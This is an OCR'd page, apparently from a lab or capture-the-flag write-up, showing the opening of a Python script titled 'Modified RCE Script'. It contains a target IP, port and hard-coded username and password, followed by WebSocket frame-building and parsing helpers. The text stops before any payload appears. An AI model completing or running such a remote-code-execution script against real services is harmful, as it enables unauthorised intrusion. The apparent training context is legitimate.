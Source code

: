 

#### Modified `RCE` Script



```python
import socket
import hashlib
import json
import os
import time

# ========== Config ==========
HOST = "172.16.61.128"
PORT = 40056
USER = "ilya"
PASSWORD = "CobaltStr1keSuckz!"

def build_websocket_frame(payload: str) -> bytes:
    payload_bytes = payload.encode("utf-8")
    frame = bytearray()
    frame.append(0x81)  # FIN=1, text frame

    length = len(payload_bytes)
    if length <= 125:
        frame.append(0x80 | length)
    elif length <= 65535:
        frame.append(0x80 | 126)
        frame.extend(length.to_bytes(2, byteorder='big'))
    else:
        frame.append(0x80 | 127)
        frame.extend(length.to_bytes(8, byteorder='big'))

    masking_key = os.urandom(4)
    frame.extend(masking_key)

    masked = bytearray(b ^ masking_key[i % 4] for i, b in enumerate(payload_bytes))
    frame.extend(masked)

    return bytes(frame)

def parse_websocket_frame(frame: bytes) -> bytes:
    if not frame:
        raise ValueError("No data received")
    print(f"[DEBUG] Raw frame header: {frame[:8].hex()}")

    fin = (frame[0] & 0x80) >> 7
    opcode = frame[0] & 0x0F

    if opcode == 0x8:
        raise ValueError("Received close frame")
    if opcode not in (0x1, 0x2):
        raise ValueError(f"Unsupported opcode: {opcode:#x}")

    is_text = (opcode == 0x1)

    length = frame[1] & 0x7F
    index = 2
    if length == 126:
        length = int.from_bytes(frame[2:4], 'big')
        index = 4
    elif length == 127:
        length = int.from_bytes(frame[2:10], 'big')
        index = 10

```